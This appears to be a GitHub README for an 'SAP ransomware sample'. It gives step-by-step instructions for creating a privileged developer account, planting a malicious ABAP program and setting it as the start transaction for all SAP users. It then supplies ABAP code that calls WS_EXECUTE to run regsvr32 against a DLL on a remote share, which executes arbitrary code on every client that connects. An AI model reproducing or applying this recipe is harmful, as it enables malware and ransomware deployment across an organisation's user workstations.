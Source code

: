 # SAP ransomware sample
Simple remote command execution exploit code for SAP GUI
First of all need to create a malicious ABAP program on SAP NetWeaver AS ABAP

1) First of all, to get RCE on a client’s computer, it is necessary to create a user with developer rights. The user SAP* cannot create or change any programs. To do this, run transaction su01 and  create a new user with SAP_ALL rights under login EVIL_DEV.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/1.png)

2) Then, login as the EVIL_DEV user, run transaction se38 and create a program sap_malware_prog.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/2.png)

3) Then when we are able to create a program, we click the Insert button, then copy a program, which executes malicious functionality, then save all and activate the program.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/3.png)

4) Create custom transaction with se93
![](https://github.com/vah13/SAP_ransomware/blob/master/img/4.png)

5) Connect custom transaction to malware program
![](https://github.com/vah13/SAP_ransomware/blob/master/img/5.png)

6) Set mlauncher transaction by default 
![](https://github.com/vah13/SAP_ransomware/blob/master/img/6.png)

7) The screenshot shows that we set start transaction – mlauncher for all users. 
![](https://github.com/vah13/SAP_ransomware/blob/master/img/7.png)
![](https://github.com/vah13/SAP_ransomware/blob/master/img/8.png)
![](https://github.com/vah13/SAP_ransomware/blob/master/img/9.png)

## ABAP code for execute any command in SAP clients hosts
```
CALL FUNCTION 'WS_EXECUTE'
       EXPORTING
            program = 'c:\Windows\System32\regsvr32.exe'
            commandline     = '/i /s \\REMOTE_FOLDER\tmp\evil.dll'
            INFORM         = ''
           EXCEPTIONS
                  FRONTEND_ERROR        = 1
                  NO_BATCH                 = 2
                  PROG_NOT_FOUND           = 3
                  ILLEGAL_OPTION           = 4
                  GUI_REFUSE_EXECUTE       = 5
                  OTHERS                   = 6.
  ```
  
  using this vulnerability developers or sap administrator can execute any command on users computers and infected them
